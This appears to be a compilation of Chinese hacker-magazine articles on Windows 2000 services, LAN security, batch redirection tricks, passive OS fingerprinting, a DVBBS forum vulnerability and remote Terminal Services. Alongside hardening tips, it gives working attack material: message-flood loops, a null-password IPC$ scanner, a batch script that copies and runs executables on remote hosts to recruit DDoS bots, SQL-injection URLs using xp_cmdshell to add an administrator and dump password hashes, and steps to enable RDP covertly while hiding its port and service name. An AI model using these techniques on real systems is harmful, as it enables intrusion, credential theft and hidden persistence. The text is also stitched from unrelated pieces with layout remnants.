WIN NT下的服务类似*NIX，通过服务来实现多用户切换等就显得很有作用了。WIN32服务由三部分组成：服务应用程序、服务控制程序（SCP）和服务控制管理器（SCM）。SCM维护着注册表中的服务数据库，位于：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\` 下的子键就是安装服务和驱动服务，每个子键的名称就是服务名……服务控制程序（SCP）则是控制服务应用程序的功能块，也是服务应用程序同服务管理器（SCM）之间的桥梁。服务应用程序是服务的主体程序，它是一个或多个服务的可执行代码。

我们主要通过三种方法来找到服务：一是通过计算机管理（鼠标右击“我的电脑”选“管理”）；二是通过“开始→程序→附件→系统工具→系统信息”找到；还可通过“控制面板→管理工具→服务”找到它。我们可修改它的当前状态和启动方式，它的启动方式有三种：“自动”是指当计算机启动时或需要它工作时，就处于开启状态；“手动”是指可在命令提示符中由“net start”和“net stop”这两个命令来开启/关闭它（当然可以在“服务”中开启它了）；“已禁止”是指在改变它的启动方式前不能再改变它的状态了。

### 二、罪行宣判

### 引狼入室

多数服务的运行安全等级是比管理员权限还高的LocalSystem（这好像让我们难以容忍）。一个服务存在的安全问题通常导致系统崩溃、权限提升等，比如DDE服务问题。服务能够在账户登录前由系统运行，这可是木马喜欢的运行方式，而且很多本身提供的服务也特别让人“喜爱”，如Telnet服务、Task Schedule服务、Remote Registry Service服务、SNMP服务等。所以它犯了《沼泽法律》第一条：引狼入室。

### 欺君大罪

当一个进程（一个正常的Windows应用程序在运行后都会在系统中产生一个进程，每个进程分别对应一个不同的PID，这个进程会被系统分配一个虚拟的内存空间地址段，一切相关的程序操作都会在这个虚拟空间中进行）以服务的方式工作时，它将在后台工作，不会出现在任务管理器的应用程序列中。虽然它和进程有着对应关系，但要想在进程中阻止某个服务是很困难的。原因有二：一是因为它和进程不是一一对应的；二是因为那种进程不能轻易终止。

另外，“手动”和“已禁止”方式并不能完全禁止一个服务的运行。如果按这两种方式启动的服务被某自动运行的服务所依赖，那么这些服务将被自动先运行。所以它犯了《沼泽法律》第二条：欺君大罪。

### 不劳而获

该家族部分无用成员占用系统资源。系统服务实际上就是Windows 2000中支持其他大型程序的小型辅助程序，多数系统服务被设为在每次启动Windows 2000时自动运行。但如果你并不使用这些服务支持的大型程序，那么这些服务只能白白浪费。经过合理地禁用某些不必要的服务，可能会节省出12到70MB左右的内存空间（这取决于你的系统）。当你取消了那些你认为不必要的系统服务后，以同样的方式重启系统，并将此时“物理内存”面板上的值与先前记录的做比较，以验证我法院的结论。所以它严重侵犯了《沼泽法律》第三条：不劳而获。

打狗还得看主人，对于这一点，我沼泽法院还是知道的，不然怎么在江湖上立足呢！故我们还得看着Windows的面子，不可将其赶尽杀绝。不过，我们也得为Windows清理门户。

每个Windows 2000的安装都依系统和安装软件的不同而有所不同，因此所安装的服务及被设置为“自动”的服务也会存在一些差异。

我们在Internet上的IP地址是由ISP动态分配的。如果系统不应用于任何网络，或者仅是一个内部共享用的而且网中没有DHCP服务器，那么你可以将其设为“已禁用”。

IPSEC是一种用来保护内部网、专用网络以及外部网（Internet、Extranet）免遭攻击的重要防御方法。使用IPSEC前必须先定义两台计算机间相互信任和通信安全的方式。

### 三、家族成员

下面我就逐个给大家介绍这个家族的兄弟姐妹！

**Alerter（警报器）**：这个服务是当系统发生故障时向管理员发送警报，所以除非你的电脑处在局域网中，而且配有网络管理员，一般情况下将其设置为“手动”或“已禁用”（图1）。


图1

如图1所示，找到该项服务，点击右键，选择“属性”，将启动类型改为“手动”或“已禁用”。

**Application Management（应用程序管理）**：Win2K引入了基于MSI的应用程序管理组件服务，用于安装、删除、修复与监控应用程序。设为“已禁用”时通常不影响单机上的安装与卸载，但基于MSI的相关行为仍可正常进行。

**ClipBook（剪贴簿）**：通过Network DDE和Network DDE DSDM提供网络动态数据交换服务，查询远程机器中的剪贴簿。普通用户可设为“已禁用”。

**Computer Browser（计算机浏览器）**：维护“网上邻居”中计算机的最新列表并通知请求程序。普通用户可设为“已禁用”，局域网用户可设为“自动”。

**DHCP Client（动态主机配置协议客户端）**：用于向DHCP服务器申请和租用IP地址。若通过拨号接入Internet，一般保持自动状态。

**Distributed Link Tracking Client（分布式链接跟踪客户端）**：跟踪文件在NTFS卷中的移动并发出通知。普通用户可设“已禁用”，局域网用户（硬盘NTFS）可设“自动”。

**DNS Client（域名系统客户端）**：将域名解析为IP地址。除非不连接任何网络，否则建议设为“自动”。

**Event Log（事件日志）**：记录程序和系统错误。虽对普通用户帮助有限，但禁用后可能导致网络相关服务无法启动，建议不要禁用。

**Fax Service（传真服务）**：Win2K重新支持传真功能并集成更好；若不用可设为“已禁用”。

**Indexing Service（索引服务）**：为本地/共享文档建立索引以增强搜索，但会消耗较多系统资源；低内存环境建议禁用。

**Internet Connection Sharing（Internet连接共享）**：为局域网计算机提供Internet共享访问。普通用户可设为“已禁用”。

**IPSEC Policy Agent（IP安全策略代理）**：允许按安全策略对通信数据包加密，保护网络通信安全。

> 注意：在Win2K的默认情况下，IP安全策略代理是自动启动的；若无特殊网络安全需求可考虑禁用。

**Logical Disk Manager（逻辑磁盘管理器）**：逻辑磁盘管理器监视服务。

**Messenger（信使服务）**：发送和接收由系统管理员或Alerter服务发送的消息。若已禁用Alerter，可将此项设为“手动”或“已禁用”。

**Message Queuing（消息队列）**：为分布式、异步消息应用程序提供通信基础结构。

**Management Instrumentation Driver Extensions（Windows管理规范驱动程序扩展）**：WMI相关组件，用于监视系统属性与资源；可先设“手动”，需要时再启用。

**Network Connections（网络连接）**：管理“网络和拨号连接”对象。若有任何网络连接（含拨号），建议保持“手动”状态。

**Net Logon（网络登录）**：主要管理网络安全设置与登录信息。一般用户可设为“已禁用”或“手动”。

**Network DDE（网络动态数据交换）和Network DDE DSDM**：为DDE对话提供网络传输与安全支持，供两个或多个程序交换信息和命令。如果你不需要在网络中与他们共同使用Office等软件（其实根本就不需要），那么可以将其设置为“手动”或“已禁用”。

**NT LM Security Support Provider**：为使用传输协议而不是命名管道的远程过程调用（RPC）程序提供安全机制。

**NetMeeting Remote Desktop Sharing（NetMeeting远程桌面共享）**：该服务能通过NetMeeting允许有权限用户远程访问Windows桌面。这个功能用处不大，可设为“已禁用”。

**Plug and Play（即插即用）**：打开Win2000的即插即用功能。建议将其设置为“自动”，否则会导致注册表混乱。

**Print Spooler（打印后台处理）**：该服务的作用是将多个请求打印的文档统一进行保存和管理，待打印机空闲后，再将数据送往打印机处理。无任何打印设备的用户设为“已禁用”，否则设为“自动”。


**Remote Access Auto Connection Manager（远程访问自动连接管理器）**：当某个程序引用远程DNS或NetBIOS名称地址时自动创建连接，建议可禁用。

**Remote Access Connection Manager（远程访问连接管理器）**：创建网络连接。如果你是在局域网中，还是不要禁止掉为好。

**Remote Procedure Call（RPC，远程过程调用）**：一种消息传递功能，很多服务依赖它（如Fax Service、Network Connections、Telephony等），应保持为“自动”。

**Remote Registry Service（远程注册表服务）**：允许编辑另一台计算机上的注册表。普通用户基本不必使用，建议禁用以降低安全风险。

**Routing and Remote Access（路由和远程服务）**：在局域网及广域网环境中为企业提供路由服务，可禁止掉。

**Run As Service（以其他用户身份运行服务）**：当你以一般权限用户身份登录系统，而使用中又需要修改仅系统管理员才能改动的系统设置项时，可在命令提示符下运行RunAs达到目的。一般用户不熟悉前可设为“已禁用”。

**Server（服务）**：用来管理网络中的文件和打印服务器。普通用户可设手动；局域网用户通常设自动。

**Simple TCP/IP Services（简单TCP/IP服务）**：支持Character Generator、Daytime、Discard、Echo以及Quote of the Day。

**Smart Card（智能卡）和Smart Card Helper（智能卡助手）**：为智能卡设备提供支持，可设为“已禁用”。

**Task Scheduler（任务计划程序）**：允许程序在预定时间自动运行（如磁盘整理等）。若不用Windows计划任务可设手动，但一些命令仍可能依赖其服务。

**TCP/IP NetBIOS Helper Service（TCP/IP NetBIOS支持服务）**：在TCP/IP上提供NetBIOS支持。非局域网使用场景可考虑禁用。

**Telephony（电话）**：为计算机提供电话拨号能力。若使用拨号上网或电话连接其他计算机则应保留，否则可设“手动”。

**Telnet（远程登录）**：允许从远程计算机登录并以命令行方式操作本机。一般用户可设“手动”或“已禁用”。

**Uninterruptible Power Supply（不间断电源支持）**：用于管理UPS，没有UPS可设为手动或禁用。

**Windows Management Instrumentation（Windows管理规范）和Windows Workstation（工作站）**：用来管理其他网络功能；如果你的电脑上网，那么应选择自动。

### 四、几则作案过程

下面，我将公布服务的若干作案过程。出于保护报案人的安全，因此不能将受害人的姓名公布于众，望谅解！


某某正在玩大富翁，突然游戏终止，冒出许多对话框。后经警方调查发现，作案人用了一个批处理文件，内容如下：

```bat
:begin
net send xx.xx.xx.xx "xxx"
goto begin
```

在此过程中，Windows的一个服务起了关键作用，就是Messenger。经研究发现，关闭Messenger服务即可缓解。另有名为“凶宝堂发送精灵”的软件可使普通人也能频繁向他人发送消息。


图2


某某的计算机被别人控制，竟在任务管理器中找不到相应客户端程序。经调查发现这是远程控制管理工具DameWare NT Utilities（图3）所致。该工具功能强大，且可通过修改文件名隐藏痕迹；类似的还有remotenc（可实现telnet的程序）等。

### 傻瓜黑客

提醒大家：多了解一下服务，有利于增加自己的免疫力。


某人的 Telnet 服务并没有开启，却被同学远程开启了。原来，Telnet 服务默认情况下是手动的，即对方可远程用 `net start telnet` 命令开启。建议把 Telnet 服务设为“禁止”。


## 五、最后忠告

由于服务拥有 Windows 操作系统的权限，所以大家对它还是能忍则忍；除非到了忍无可忍的时候，那就无需再忍了。大家对付它时，一定要注意以下几点：

- 在禁用任何服务前，确定你所做的会带来什么后果。
- 最好不要一次禁用太多服务；系统故障时不易定位。
- 服务具有依从性，一个服务的请求会造成其他服务不可用。
- SC 工具提供删除服务功能，可完全禁止某服务存在，但需谨慎。

为体现体贴入微，针对不同情况列出可禁用服务供参考：单机不上网、单机但上网、局域网环境等场景下的服务建议。

（右栏）可禁用服务示例：Computer Browser、DHCP Client、DNS Client、Event Log、IPSEC Policy Agent、Network Connections、Simple TCP/IP Services、Workstation、Print Spooler、Distributed Link Tracking Client、Logical Disk Manager、Message Queuing、Messenger、Remote Access Auto Connection Manager、Remote Registry Service、Routing and Remote Access、RunAs Service、Task Scheduler、TCP/IP NetBIOS Helper Service、Remote Access Connection Manager、Telephony 等。

（右栏结语）如果你在一个局域网中，我可就没有权利去指导你了，去问问你们的网管吧！

### 写给菜鸟的“网内入侵”

首先声明，这篇文章没什么深奥内容，也没有新鲜漏洞。想说的是：安全不一定发生在 Internet 上；即使不上网，也会有安全隐患。尤其在校园局域网中，存在“伪入侵”风险。

为什么叫伪入侵：它基于局域网，实现简单，但危害感受可能超过来自 Internet 的入侵。若舍友可轻易查看你电脑中的内容，会非常被动。

### 1. 密码问题

学生开机频繁，往往不给爱机设置足够强的密码；很多人只在 CMOS 设开机密码，以为安全。Windows 2000/XP 共享相关设置若处理不当，仍可能被访问。

可在“控制面板→管理工具→计算机管理”查看共享（图1）。在浏览器中输入 `\\IP\c$` 会触发身份验证；弱口令易被猜中（图2）。


不用任何工具可入侵吧。像我这样的环境中，空密码太多啦！因为在很多人眼里，没有上网就不会有大的安全问题，最多有几个病毒捣乱。如果机器的密码为空，用户名设置也极不安全（如设为计算机名），相信 60% 的计算机可以让你进入，而且是完全的操作权限。

所以，一定要给自己的计算机设个密码，当然不要太简单了。如果你实在不想设置什么密码，那也行，关掉这些共享就行啦！不过可不要以为在计算机管理中关掉就万事大吉，因为那样做的话，当重新启动后会发现这些已关闭的共享又有了。

```bat
@echo off
net share C$ /del
net share D$ /del
net share E$ /del
net share F$ /del
net share admin$ /del
net share ipc$ /del
```

如果你不懂批处理文件，那么打开记事本，写入以上命令行，然后保存为 `del.bat` 就可以了。当然，具体删除什么共享，就由你决定啦！如果你嫌麻烦，那么想个办法让此文件开机自动运行即可，推荐使用组策略。


如果你习惯用注册表，也可在注册表中改动两个地方。首先找到：`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters]`，增加 DWORD 值。若为 NT SERVER 或 Win2000 SERVER，添加 `autoshareserver`=`dword:00000000`；若为 NT WORKSTATION 或 2000 PROFESSIONAL，添加 `autosharewks`=`dword:00000000`。

另外，还需把 IPC（Internet Process Connection）关掉，找到：`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]`，将 `restrictanonymous` 键值改为 1（即 `dword:00000001`）。

### 2. 服务问题

下面我说说关于服务的问题。相信大家都知道计划任务的无用性（相信用到它的学生朋友不会很多）及被利用性（`at` 命令就是在利用这个服务）。更可恶的是，Win2000 默认安装后它就被隐藏地开启了，在任务栏上看不到它。所以我们有充分的理由关闭它。


我再顺便说说另一个服务——Message。用过 `net send` 命令的人都知道它的方便，但任何东西都有两面性。若有人频繁给你发消息会很烦，我们只要把 Message 这个服务关掉即可。

```bat
:a            \\设一个标志
net send 192.168.0.1 "message"   \\这里假设对方IP为192.168.0.1
goto :a       \\返回到标志处继续执行
```

> 注意：`net send` 命令格式为“`net send 目标IP地址 发送内容`”，如：`net send 192.168.0.1 "XFILES"`。

其实很多服务都是没有用的，有空仔细琢磨一下。很多远程控制软件即使隐藏在任务管理器和进程中，也很难隐藏在服务中的足迹。写这篇文章的目的是告诉大家，网络安全问题随处都在，一旦贪图方便，安全隐患也会随之出现。

### 重定向命令在安全方面的几则应用

大家知道，DOS 下有个不为大家所常用的命令——重定向命令。这个小东西非常有用，该命令同样可用于 Win9x/ME/2000/XP 下，灵活使用这个命令可给我们带来很大的方便——无论是入侵还是防守或是系统应用。今天，就让我们来看几个重定向命令在安全方面的应用实例。

将输入重定向到一个命令，就像可以将命令输出发送到文件或打印机而不是屏幕一样，你可以从文件而不是从键盘获取命令的输入。

要从文件获取输入，请使用小于号“`<`”。例如，以下命令将从 `List.txt` 文件中获取 `sort` 命令的输入：

```text
sort<list.txt
```

系统将 `List.txt` 文件各行按字母排序并在屏幕上显示结果。

### 一、命令格式

DOS 的标准输入输出通常是在标准设备键盘和显示器上进行的，利用重定向可方便地将输入输出改向磁盘文件或其他设备，其中：

- 大于号 `>` 将命令发送到文件或设备，例如打印机 `>prn`。使用 `>` 时，有些命令输出（例如错误消息）不能重定向。
- 双大于号 `>>` 将命令输出添加到文件结尾，而不删除文件中已有的信息。
- 小于号 `<` 从文件而不是键盘上获取命令所需的输入。
- `>&` 符号将输出从一个默认 I/O 流（stdout、stdin、stderr）重新定向到另一个默认 I/O 流。例如：`command >output_file 2>&1` 将处理 command 过程中的所有错误信息，从屏幕重定向到标准文件输出中。

| 标准输出 | 等价的数值 |
|---|---|
| Stdin | 0 |
| Stdout | 1 |
| Stderr | 2 |

其中，1 和 2 都创建一个文件用于存放数据；`>&` 不一定能在 DOS 下使用。

### 二、重定向命令的输出

几乎所有命令均将输出发送到屏幕。即使是将输出发送到驱动器或打印机的命令，也会在屏幕上显示消息和提示。要将输出从屏幕重定向到文件或打印机，请使用大于号 `>`。大多数命令中均可使用大于号，例如，在以下命令中，`dir` 命令生成的目录列表重定向到 `Dirlist.txt` 文件：

```text
dir>dirlist.txt
```

如果 `Dirlist.txt` 文件不存在，系统将创建该文件。如果 `Dirlist.txt` 存在，系统将使用 `dir` 命令的输出替换文件中的信息。

要将命令输出添加到文件结尾而不丢失文件中的任何信息，请使用双大于号 `>>`。例如，在以下命令中，`dir` 命令生成的目录列表附加到 `Dirlist.txt` 文件中：

```text
dir>>dirlist.txt
```

### 三、应用举例

#### 1. 给注册表加锁 / 解锁

大家知道，注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 分支下的 DWORD 值 “DisableRegistryTools” 的键值如为 “1”，则可以给注册表加锁，这样别人就无法使用注册表编辑器。利用重定向命令在 DOS 下就可给注册表加锁 / 解锁，非常方便。打开记事本程序，新建一个文本文件，输入如下内容：

```bat
@echo REGEDIT4>123.reg
@echo.>>123.reg
@echo [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]>>123.reg
@echo "DisableRegistryTools"=dword:00000001>>123.reg
@REGEDIT /S /V 123.reg
@deltree /y 123.reg
```

另存为以 `.bat` 为扩展名的批处理文件，点击这个文件注册表就会被锁定。上面命令中，`echo` 是 DOS 下的回显命令，在前面加 `@` 表示执行时本行在命令行或 DOS 里不显示。第一行中的 `REGEDIT4` 要用大写字母，第二行中 `echo` 和 `.` 之间没有空格。`>>` 产生的内容将追加到后面的文件中。最后一行加上 `deltree /y 123.reg`，可无需确认就删除 `123.reg` 文件。若要解锁，将 `"DisableRegistryTools"=dword:00000001` 改为 `"DisableRegistryTools"=dword:00000000` 即可。

#### 2. 把登录 3389 的机器 IP 记录下来

把下面的内容保存为 `3389IP.bat`：

```bat
time /t>>log.log
netstat -n -p tcp | find "3389">>log.log
start Explorer
```

运行 `3389IP.bat`，然后查看 `log.log` 文件即可看到登录 3389 的机器 IP，是不是很方便呢？

#### 3. 恢复 DOS 实模式

大家知道，某些恶意网页会修改浏览者的注册表，在无所不用其极的各种手段中，修改注册表使 DOS 实模式不可用是其中的招数之一。恢复 DOS 实模式方法有很多，用批处理和重定向命令结合使用，是比较特别的一招，在此与大家分享。

```bat
@echo off
echo REGEDIT4>c:\scanreg.reg
@echo.>>c:\scanreg.reg
echo [HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\WinOldApp]>>c:\scanreg.reg
echo "NoRealMode"=dword:00000000>>c:\scanreg.reg
regedit /s c:\scanreg.reg
@del c:\scanreg.reg
```

另存为以 `.bat` 为扩展名的批处理文件，点击这个文件就可以恢复 DOS 实模式，那么 DOS 应用程序又可以使用了。

#### 4. 等待肉鸡上门

每天费时费力地找肉鸡是不是很辛苦？利用重定向命令和批处理文件就可以简单地找到肉鸡！方法是用记事本新建一个文本文件，输入如下内容：

```bat
@echo off
:start
nc -vv -w 5 -l -p 80>>louji.log
goto start
```

保存为 `.bat` 文件（事先得准备好一个 `nc.exe` 文件，它是网络故障排除检测软件 Netcat 的主程序），然后运行此程序，你就等着肉鸡上门主动来找你吧！运气好的话，每天 10 个不成问题。

#### 5. 快速进行空连接

空连接是在没有信任的情况下与服务器建立的会话，换句话说，它是一个到服务器的匿名访问。使用命令：

```bat
net use \\IP\ipc$ "" /user:""
```

就可简单地和目标建立一个空连接（需要目标开放 IPC$）。利用重定向命令和 `for` 命令就可对一个 C 类网段进行快速的空连接，并把结果保存到一个文件中供你分析。方法是用记事本编辑如下内容文件：

```bat
@echo off
echo 格式: test*****>test.txt
for /L %%G in (1,1,254) do echo %%1.%%G >>test.txt & net use \\%%1.%%G\ipc$ "" /user:"Administrator" | find "命令完成">>test.txt
```

```bat
net use \\%%1.%%G\ipc$ "" /user:"Administrator" | find "命令完成">>test.txt
```

将批处理文件保存为 `.bat`，运行即可。这个批处理文件的功能是：对你指定的一个 C 类网段中的 254 个 IP 依次尝试建立账号为 administrator、口令为空的 ipc$ 连接，如果成功，就把结果记录在 `test.txt`。这样就实现了 NT 弱口令扫描功能。

其中，`for` 命令的功能是对一组文件中的每个文件执行某个特定命令。For 命令的格式为：

```text
FOR %variable IN (set) DO command [command-parameters]
```

具体含义：

- `%variable`：指定一个单一字母可替换的参数；
- `(set)`：指定一个或一组文件，可使用通配符；
- `command`：指定对每个文件执行的命令；
- `command-parameters`：为特定命令指定参数或命令行开关。

在批处理文件中使用 FOR 命令时，指定变量请使用 `%%variable`，而不要用 `%variable`。变量名称区分大小写，所以 `%i` 不同于 `%I`。

#### 6. 禁止空连接

空连接的存在有一定的危险性，所以我们还是禁止它为好！方法是输入 `net share` 查看本地共享资源，接下来输入如下命令删除共享：

```bat
net share ipc$ /delete
net share admin$ /delete
net share c$ /delete
net share d$ /delete（如果有 e、f 等盘符可以同法删除）
```

然后用记事本新建一个文本文件，输入如下内容即可：

```bat
@echo REGEDIT4>>123.reg
@echo.>>123.reg
@echo [HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\LSA]>>123.reg
@echo "RestrictAnonymous"=dword:00000001>>123.reg
@REGEDIT /S /C 123.reg
@deltree /y 123.reg
```

另存为以 `.bat` 为扩展名的批处理文件，点击这个文件就可以禁止空连接。

#### 7. 扫描所有和本机以 TCP 协议连接的计算机

扫描自己的计算机端口，发现有特殊端口打开，可以查木马。不仅如此，利用下面这个批处理文件还可把所有和本机以 TCP 协议连接的计算机的 IP 地址都记录下来。这个 `.bat` 文件内容如下：

```bat
date /t>>123.log
time /t>>123.log
netstat -n -p tcp>>123.log
```

这样不仅可记录下对方的 IP，还有时间和日期，方便自己查看。

#### 8. 自动获取 DDoS 肉鸡

DDoS 是 Distributed Denial of Service 的缩写，意即分布式拒绝服务攻击。它借助客户/服务器技术，将多个计算机联合作为攻击平台，对一个或多个目标发动 DoS 攻击，从而提高攻击威力。文中继续说明了主控程序、代理程序以及指令触发等基本机制，并强调内容仅用于技术掌握与理解。

```bat
@echo off
echo 自动获取DDoS肉鸡
for /f "tokens=1,3" %%i in (host.txt) do net user \\%%i\ipc$
...
```

```bat
:user
copy %1 \\%i\admin$\system32
if errorlevel 0 goto success
psexec -d \\%i c:\winnt\system32\%1
net user \\%i\ipc$ /del
:success
echo --------------------->>success.txt
echo 内网IP:%i>>success.txt
echo 用户名:%j>>success.txt
echo 密码:%k>>success.txt
```

使用方法提示：`ok.bat *.exe host.txt`，并说明 `host.txt` 的格式（ip、administrator、password）及重定向命令在批处理中的作用。


黑客在对某服务器发动攻击前，一般要先识别目标操作系统类型。文中引出“被动式探测”概念，并与主动扫描方式对比，说明被动式方式不主动发包、隐蔽性更强。

### 一、什么是被动式操作系统探测

由于不同厂商对 TCP/IP 协议栈实现存在差异（如 TCP FIN、窗口大小、ACK、分片、初始序列号等），可通过综合分析判断目标主机系统类型。文中同时说明主动式与被动式探测在发包行为与可见性上的区别。

中栏继续解释：主动探测会向目标发送探测包并根据响应判断系统，容易被发现；被动探测通过监听网络通信并分析协议栈指纹差异来识别远程主机操作系统。

### 二、为什么要使用被动式探测，有什么好处

使用被动式探测的主要好处是隐蔽性：无需主动发送探测数据包，通常不易触发 IDS/检测告警；只需分析既有通信数据即可获得目标系统相关信息。

右栏说明被动式探测对绕过部分 IDS 检测有帮助，并引出工具实践内容。

### 三、“天眼”的使用详解

介绍“天眼”工具的版本、运行平台与使用前提（如需安装 winpcap），并提示探测结果并非绝对准确。

### 1、安装 winpcap

### 傻瓜黑客

WinPcap 安装界面（图1），接着安装协议，然后按照默认设置，一步步完成安装。


图1

### 2、使用“天眼”

WinPcap 安装完毕后，“天眼”就可以工作了。“天眼”的操作界面非常简单，如图2所示。只要单击其“操作菜单”里的“开始”，就开始探测工作了。把它最小化后会在任务栏右端显示小图标。打开 IE 浏览网页，再看“天眼”（图3），可看到 WEB 服务器操作系统类型，并可进行反向解析，集成“追捕”数据库后还能显示 IP 对应地理地址。


图2


图3

接着把探测到的信息保存下来，点击“操作菜单”里的“导出文本”可保存为文本文件；下次运行时再打开该文件可追加记录。可用“新建”另存文件；用“删除”删除某条记录；用“查找”查找记录；单击 IP 地址可定位后再操作。

### 3、扩充特征数据库

上网中有些记录会显示“未知系统”。这是因为“天眼”基于不同操作系统的特征信息包数据库进行判断，不同系统在 TELNET、FTP、HTTP、SSH 等协议栈上特征不同，数据库不可能收集完整。当遇到未收录特征时会出现“未知系统”。用户可将识别到的系统特征补入数据库：在“未知系统”记录上双击，在输入框输入主机操作系统（图4），以后遇到这类特征即可识别。


图4

也可直接修改“天眼”的特征码存放文件——os.con，进行扩充（图5）。示例特征码：`7D78:64:1:Linux 2.1.122 - 2.2.14`，其中 `7D78` 表示 TCP 初始窗口大小（Window Size），`64` 表示 TTL，`1` 表示设置了 DF 位，后半部分表示系统版本。组合判断可得到目标系统类型。


图5

这样可先用其他方法（如 sniffer）探测特定系统数据，再按特征码形式写入即可。


### 四、“天眼”的另类运用

“天眼”不仅可增强攻击者探测隐蔽性，还可与其他工具配合提高效率。例：Solaris 的 /bin/login 溢出常见于 23 端口。主机太多时，可先用端口扫描器（如 superscan）扫描 IP 段并筛出开放 23 端口主机（图6），再用“天眼”快速判断其操作系统类型（图7），从而定位可能的 SunOS/Solaris 目标。


图6


图7

如果“天眼”未能识别 Solaris，可先人工找到一台 Solaris 主机，在“未知系统”记录上双击并补入对应版本信息。至此该被动探测工具可与端口扫描配合，帮助快速识别 IP 段内主机操作系统。

## 动网论坛X-最新漏洞导致用户密码泄露

红衣刺客

动网论坛是由 WWW.ASPSKY.NET 开发的 ASP 论坛，许多知名网站的论坛也大都是动网论坛。目前其最新版为 DVBBS VER 6.0.0 SP2。

动网论坛经过不断改进，已消除大量安全隐患。但旧版本曾因 `[IMG]` 标签过滤不严导致跨站脚本攻击，攻击者可盗取用户秘密。

近期又出现新漏洞，可导致管理员和用户密码泄露。受影响版本包括 DVBBS VER 6.0.0、6.0.0 SP1、6.0.0 SP2，ACCESS 与 MSSQL 版本均受影响。

### 一、漏洞描述

由于某 ASP 文件（tongji.asp）未过滤用户提交给 SQL 查询的输入，远程攻击者可利用该漏洞进行 SQL 注入，从而造成用户密码批量泄露并威胁论坛与服务器安全。

### 二、漏洞的攻击方法

#### 图1：MSSQL 版攻击方法

如果是 MSSQL 版本论坛，可直接提交如下 URL：

```text
http://www.targetweb.com/bbs/...xp_cmdshell... net user hack cike /add ...
```

> 注意：其中的 www.targetweb.com 为目标网址（以下同）。

这样在对方系统中会添加一个用户名为 `hack`、密码为 `cike` 的用户。

再提交：

```text
http://www.targetweb.com/bbs/...xp_cmdshell... net localgroup administrators hack /add ...
```

你就成为了系统管理员，后续操作不再赘述。

#### 图2：ACCESS 版攻击方法

先提交如下 URL：

```text
http://www.targetweb.com/bbs/tongji.asp?orders=2&N=2 ...
```

返回如下结果：

```text
document.write('...'); document.write('admin'); document.write('...'); document.write('红衣刺客'); ...
```

如果想得到 100 个用户密码，可把 `N=2` 改为 `N=100`（注意不能超过注册总人数）。


再提交如下 URL：

```text
http://www.targetweb.com/bbs/tongji.asp?orders=2&N=2%20user%20password
```

返回如下结果：

```text
document.write('...'); document.write('49ba59abbe56e057'); document.write('...'); document.write('18e071ccfb2d1c99'); ...
```

可得到 `admin` 与 `红衣刺客` 两个用户的 MD5 密码值，分别为 `49ba59abbe56e057` 与 `18e071ccfb2d1c99`。


下一步需使用 MD5 密码转换器进行破解，将哈希复制到文本框后点击还原，可得到真实密码（示例为 123456）。


### 傻瓜黑客


自从 Win2000 问世以来，它的终端服务就一直深受黑客们青睐……终端服务无疑是一个优秀的后门了。那么如何才能打开这道门而又躲过网管的眼睛呢，且听我一一道来……

### 启动远程主机的终端服务

由于相关教程非常多，所以我们这里只简单介绍一下方法！

- 1. 修改对方服务设置或直接修改注册表（成功率相对较低）  
  1) 在“开始”菜单中选择“运行”，输入 `regedit`，连接网络注册表，修改 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Termservice` 下 `start` 值为 2，再重启目标主机。  
  2) 在“我的电脑→管理→服务→Terminal Services→属性→自动→确定→启动 Terminal Services”。

### 2. 使用 Win2000 无人值守工具——sysocmgr.exe

此前提是远程主机没有安装终端服务，要求能 Telnet 远程执行命令。

```text
echo [Components] > c:\bootlog.txt
echo TSEnabled=on >> c:\bootlog.txt
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\bootlog.txt /q
```

> 注意：其实没有 Telnet，只要能连接 IPC 共享并有写权限，也可通过 At 远程触发命令完成。参数写法可在命令行输入 `sysocmgr /?` 查看帮助。

```text
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\bootlog.txt /q /r
```

### 3. 用脚本开启远程终端

这里我们需要一个脚本文件——`rots.vbe`，当然还有管理员帐号和密码……例如目标 IP 为 127.1.1.1，管理员账号 administrator，密码为空。

```text
cscript rots.vbe 127.1.1.1 administrator "" 3389 /fr
```

命令中的 `/fr` 是重启参数（强制重启），也可用 `/r` 普通重启。

### 4. 用开启终端服务的工具

`Djxyxs.exe` 是一款开启终端服务的小工具。到这里 3389 已经为我们服务了，下面讨论如何绕过管理员的眼睛。

### 更改终端服务的相关配置

最痛苦的是辛苦入侵后被管理员发现，前功尽弃。下面介绍一些修改技巧。

### 1. 修改终端服务的端口

可在 CMD 下用 `Netstat -an` 查看 3389 端口状态。修改 Terminal Server 端口需两步：修改服务端端口设置、修改客户端连接时端口设置。

- （1）更改终端服务的服务器端设置：  
  - 注册表位置：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\Wds\Repwd\Tds\Tcp`  
  - 将 `PortNumber` 从 `0xd3d`（十六进制，即 3389）改为自定义端口。  
  - 再修改：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp` 下 `PortNumber` 为同一值。


OK！现在重启系统。

> 注意：修改两处端口必须一致，否则会导致 RDP 无法连接。

重启后，用 `netstat` 查看端口状态（图2）。


- （2）改客户端：  
  - 服务端端口改了而客户端未改，仍无法正常连接。  
  - 在客户端连接管理器中按常规方式建立连接后，选择“文件→导出”（Menu→File→Export）生成 `*.cns` 配置文件。  
  - 用文本编辑器修改其中 `Server Port=3389` 为新端口，再“文件→导入”（Menu→File→Import）。

需要注意的是，从微软主页上下载的终端服务客户端 Terminal Service Client（MSI 版）以及 ActiveX 版都不能更改端口，只有使用 Win2000 服务器版终端服务自带的“制作安装盘”功能制作的版本可以改端口，这个功能在管理工具的“终端服务客户端生成器”（Terminal Service Client Creator）中。


### 2. 将终端服务换名

如果我们先改端口的话，对方在查看服务时依然能看出来。所以，我们连服务名也一并换掉。这里我们用 Windows 2000 下的 Resource Kits 中的一个工具 instsrv 创建一个服务（当然，你也可用其他的工具来实现，如 srvinstw、GUI 等），instsrv 的用法如下：

```text
c:\>instsrv

Installs and removes system services from NT.

